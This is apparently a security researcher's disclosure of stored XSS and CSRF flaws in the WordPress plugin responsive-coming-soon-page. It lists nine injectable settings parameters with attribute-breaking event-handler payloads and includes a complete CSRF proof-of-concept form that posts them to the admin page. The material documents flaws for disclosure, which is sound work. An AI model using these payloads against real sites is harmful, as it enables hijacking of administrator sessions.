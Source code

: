 Well ,sir ,I just found some Stored-XSS bugs and a CSRF bug at wp-plugin responsive-coming-soon-page.

#### Stored-XSS

When the admin user click the "Save Options" button in the responsive-coming-soon-page setting page, we'll post some data to:

```
http://127.0.0.1/wordpress/wp-admin/admin.php?page=rcsm-weblizar
```

But when I pentest the  parameters in this plugin, I found when I write something into this point, it does not filter well.

##### Stored-XSS bugs

By the way, they're displayed by different weak data parameter, post by different data packets:

```
1.coming-soon_title=Our+Site+Is+Coming+Soon!!!" onfocus=console.log(/xss1/) autofocus test="123
2.coming-soon_sub_title=Stay+Tuned+For+Something+Amazing" onfocus=console.log(/xss2/) autofocus test="123
3.logo_width=250" onfocus=console.log(/xss3/) autofocus test="123
4.logo_height=150" onfocus=console.log(/xss4/) autofocus test="123
5.bg_color=%230098ff" onfocus=console.log(/xss7/) autofocus test="123
6.button_text_link=%23timer" onfocus=console.log(/xss8/) autofocus test="123
7.social_icon_1=fa+fa-facebook" onfocus=console.log(/xss10/) autofocus test="123
8.counter_title_icon=fa+fa-clock-o" onfocus=console.log(/xss9/) autofocus test="123
9.counter_title=We're+Coming+Soon11" onfocus=console.log(/xss6/) autofocus test="123
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss1.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss2.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss3.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss4.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss5.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss6.png)


#### CSRF

Well, the stored-xss bugs here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/wordpress/wp-admin/admin.php?page=rcsm-weblizar" method="POST">
      <input type="hidden" name="social&#95;icon&#95;1" value="fa&#32;fa&#45;facebook&quot;&#32;onfocus&#61;console&#46;log&#40;&#47;xss10&#47;&#41;&#32;autofocus&#32;test&#61;&quot;123" />
      <input type="hidden" name="social&#95;link&#95;1" value="&#35;666&quot;" />
      <input type="hidden" name="link&#95;tab&#95;1" value="on&quot;&#32;onfocus&#61;console&#46;log&#40;&#47;xss10&#47;&#41;&#32;autofocus&#32;test&#61;&quot;123" />
      <input type="hidden" name="social&#95;icon&#95;2" value="fa&#32;fa&#45;twitter666&quot;" />
      <input type="hidden" name="social&#95;link&#95;2" value="&#35;666&quot;" />
      <input type="hidden" name="link&#95;tab&#95;2" value="on" />
      <input type="hidden" name="social&#95;icon&#95;3" value="fa&#32;fa&#45;google&#45;plus666&quot;" />
      <input type="hidden" name="social&#95;link&#95;3" value="&#35;" />
      <input type="hidden" name="social&#95;icon&#95;4" value="fa&#32;fa&#45;linkedin" />
      <input type="hidden" name="social&#95;link&#95;4" value="&#35;" />
      <input type="hidden" name="social&#95;icon&#95;5" value="fa&#32;fa&#45;pinterest" />
      <input type="hidden" name="social&#95;link&#95;5" value="&amp;66&quot;3" />
      <input type="hidden" name="weblizar&#95;rcsm&#95;settings&#95;save&#95;social&#95;option" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin responsive-coming-soon-page.